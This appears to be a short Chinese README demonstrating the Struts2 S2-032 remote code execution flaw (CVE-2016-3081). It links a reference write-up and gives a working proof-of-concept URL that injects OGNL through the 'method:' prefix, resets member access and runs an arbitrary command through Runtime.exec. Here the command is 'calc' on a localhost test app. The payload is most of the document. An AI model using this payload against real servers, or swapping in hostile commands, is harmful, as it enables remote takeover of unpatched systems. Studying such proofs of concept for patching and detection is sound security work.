 # Struts2 远程漏洞

主要为S2-32问题,代号[CVE-2016-3081]
参考[实现](http://www.cnblogs.com/mrchang/p/6501428.html)

POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?method:%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2c%23f%3d%40java.lang.Runtime%40getRuntime().exec(%23parameters.cmd%5b0%5d)%2c%23request.toString&cmd=calc
</pre>

结果如下:

![hacker](hacker.jpg)
